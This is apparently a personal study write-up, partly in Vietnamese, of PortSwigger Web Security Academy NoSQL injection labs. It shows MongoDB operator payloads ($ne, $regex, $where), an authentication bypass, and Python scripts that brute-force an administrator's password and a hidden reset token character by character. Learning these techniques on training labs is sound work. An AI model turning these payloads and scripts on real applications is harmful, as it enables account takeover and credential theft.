# Kiến thức cần biết:

## Type of NoSQL Injection

- Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection.
 
- However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.

- Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

- MongoDB sử dụng JSON/BSON format

## NULL charector



## MongoDB

- Link tham khảo: [Mongo_db](https://www.mongodb.com/docs/manual/reference/operator/query/)

- Format chung: MongoDB sử dụng ```JSON-like``` syntax

    • Trong request (NoSQLi), thường sử dụng dạng query string:

```username=admin&password=123```

Để inject, bạn chuyển sang dạng:

```username[$ne]=null```

-Các operator thường dùng trong ```NoSQLi```:

    1. ```$where``` - Thực thi JavaScript:       
        ○ Cực kì nguy hiểm vì so sánh document bằng JS

        ○ Nếu password match regex thì thành công.   

        ○ Là 1 toán tử đặc biệt trong MongoDB, cho phép bạn viết 1 đoạn JavaScript chạy bên trong truy vấn.

    2. $ne - Not Equal:        
        ○ Match tất cả các giá trị mà không bằng giá trị được chỉ định sẵn:

        ○ field[$ne]=value

    3. $in - Match tất cả các giá trị có trong 1 array cho trước:        
    4. $regex - Regular Expression:       
        ○ Tìm giá trị có dạng nhất định (Giống lệnh grep trong Linux)


## Cách reset password thường hoạt động






## Some command Javascript in NoSQLi

- ```Object.keys()``` sẽ liệt kê tất cả các key (Tên trường) có trong object.

- ```this``` trong MongoDB là document hiện tại đang được xét.

==>```Object.keys(this)```: Liệt kê tất cả các field name trong document.

```Object.keys(this)[i]``` : Truy cập field thứ i thứ i (theo thứ tự).


- ```charAt(i)``` : Kiếm tra kí tự thứ i trong string.

==>```Object.keys(this)[i].charAt(j)``` 


# Lab NoSQL Injection

## Lab: Detecting NoSQL injection

**END goals**: perform a NoSQL injection attack that causes the application to display unreleased products.

- When I access ```/filter?category=Accessories'``` path, the web return:



- To display unrelease product: ```/filter?category=Accessories'||'1```

## Lab: Exploiting NoSQL operator injection to bypass authentication

**END goals**: log into the application as the administrator user.

-Overview:




We have a Json format when login to website by credentials ```wiener:peter```

- Test operator injection:

Change the value of username from ```wiener``` to ```{"$ne":""}```, then send the request:



    ==>Enable you to log in.

  - Change the value of the username from ```{"$ne":""}``` to ```{"$regex":"wien.*}```, then send the request:



- With username ```{"$ne":""}```, change the value of password from ```"peter"``` to ```{"$ne":""}```:




==>This cause the query to return an unexpected number of records.

(Indicate that more than one user has been selected)



==>We solve this lab.


## Lab: Exploiting NoSQL injection to extract data

**END goals**: Extract the password for the administrator user, then log in to their account.

- Sau khi log in vào website, ta thấy 1 gói tin ```GET``` chứa js khá khả nghi:



 ==>Đoạn code này đọc tham số id từ URL và gửi request tới endpoint ```/user/lookup?user=<id>```

Sau đó nhận lại object dạng ```JSON``` (user infor)

==>Tìm gói tin POST tới endpoint ```/user/lookup...```



- Thử đổi user thành administrator sau đó gửi lại tin:



==>Hiện các thông tin về admin, giờ ta cần là tìm xem password của admin là gì.

- Xác định độ dài password with payload:

```GET /user/lookup?user=administrator'+%26%26+this.password.length+<+50%00```



- Script để lấy password length:

```python
import requests
baseurl = "https://0af6002a04d65f4a80af4e2c0019008d.web-security-academy.net"
cookies = {"session": "rTjetHn3Ds9gzq3biYGjAKbGjWhF1y9b"}
for length in range(1, 50):
    payload = f"administrator'+%26%26+this.password.length=={length}%00"
    url = f"{baseurl}/user/lookup?user={payload}"
    r = requests.get(url, cookies=cookies)
    if "administrator" in r.text:
        print(f"[+] Password length is: {length}")
        break
    
    else:
        print(f"[-] {length} is not length's password")
```



==>Biết được độ dài password là 8

-Giờ bắt đầu tìm các kí tự của nó với:

```GET /user/lookup?user=administrator'+%26%26+this.password[0]%3d%3d'a'%00```

Script brute-force password:

```python
import requests
baseurl = "https://0af6002a04d65f4a80af4e2c0019008d.web-security-academy.net"
cookies = {"session": "rTjetHn3Ds9gzq3biYGjAKbGjWhF1y9b"}
charset = "abcdefghijklmnopqrstuvwxyz"
password = ""
for pos in range(1, 8):
    for char in charset:
        payload = f"administrator'+%26%26+this.password[{pos}]%3d%3d'{char}'%00"
        url = f"{baseurl}/user/lookup?user={payload}"
        r = requests.get(url, cookies=cookies)
        if "administrator" in r.text:
            print(f"[+] Found charector in {pos} position: {char}")
            password += char
            break
        
        else:
            print(f"[-] {char} is not true char in {pos} position")
            
print(password)
```

==>Lấy pass và login là xong.


## Lab: Exploiting NoSQL operator injection to extract unknown fields

**END goals**: log in as carlos.

- Hint: To solve the lab, you'll first need to exfiltrate the value of the password reset token for the user ```carlos```.

- Khi làm như các lab trước thì đăng nhập bị lock khi đang test list password.



- Khi thử chèn $where vào và viết hàm js return về true ta nhận được message giống với khi ```password: "$ne"```



- Thử return 0 xem:



==>Ok ta có thể chèn ```$where``` vào mà không cần lo lắng gì

- Giờ ta cần xác định xem ở json còn field nào bị ẩn đi mà ta chưa biết hay không bằng cách sử dụng ```Object.keys()```:

```"$where":"function(){ if(Object.keys(this)[1].match('username')) return 1; else 0; }"```



Hàm ```keys()``` có chức năng duyệt tất cả các field có trong website, ta sẽ sử dụng thêm .match() để kiếm tra các giá trị của nó



-Các giá trị của token lần lượt là ```_id```, ```username```, ```password```.

-Thử với [3] [4] ta vẫn thấy server 200 OK, nhưng khi tới [5] thì bị ```internal error```

==>Vậy là có 2 trường bị ẩn.

-Giờ tìm tên của các field bị ẩn với payload:

```"$where":"function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"```

+Thay 1 bằng các giá trị khác rồi tìm xem gói tin nào trả về ```Account locked``` là êm



==>Field thứ 3 có length là 5.



==>Field thứ 4 có length là 10.

-Giờ đi tìm các giá trị có trong field đó bằng payload:

```"$where":"function(){ if(Object.keys(this)[3].charAt(0) == 'a') return 1; else 0; }"```



==>```Object.keys(this)[3]``` là ```email```

```"$where":"function(){ if(Object.keys(this)[4].charAt(0) == 'a') return 1; else 0; }"```



==>Object.keys(this)[4] là "resetToken"

- Sử dụng payload ```"$where":"function(){ if(this.resetToken.length == 1) return 1; else 0; }"``` để biết độ dài của ```reset token```:



==>length là 16.

- Sử dụng payload: ```"$where":"function(){ if(this.resetToken.charAt(i) == 'a') return 1; else 0; }"``` để trích xuất giá trị của resetToken:



==>Giá trị của resetToken: "d84542511ecabd6f"

- Giờ truy cập vào trang Forgot-password rồi chèn thêm parameter ```resetToken= "d84542511ecabd6f"```:




==>Đã ra 1 giao diện để reset password cho carlos user.

==>Đổi password và login vô là xong.